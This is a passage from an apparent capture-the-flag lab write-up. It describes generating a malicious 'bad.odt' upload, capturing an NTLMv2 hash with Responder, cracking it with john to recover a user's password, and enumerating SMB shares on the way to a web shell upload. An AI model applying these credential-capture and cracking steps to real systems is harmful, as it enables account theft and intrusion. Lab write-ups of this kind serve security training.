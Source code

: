 ```

Please enter IP of listener: 192.168.45.197
```

The script also generates the file `bad.odt` for us to upload. I started a `responder` instance and uploaded the file. After a while, `responder` would capture a hash:

<figure><img src="../../../.gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

This hash can be cracked immediately to get the password for the user:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt ntlm_hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
winniethepooh    (thecybergeek)     
1g 0:00:00:00 DONE (2023-07-05 23:58) 100.0g/s 409600p/s 409600c/s 409600C/s slimshady..oooooo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

### SMB Shares --> Upload Web Shell

There wasn't SSH or WinRM open on the system, so instead, let's try to enumerate SMB using these credentials.

`smbmap` reveals that we can read some shares:

```
$ smbmap -u thecybergeek -p winniethepooh -H 192.168.197.188     
[+] IP: 192.168.197.188:445     Name: 192.168.197.188                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        WebApp                                                  READ ONLY
```
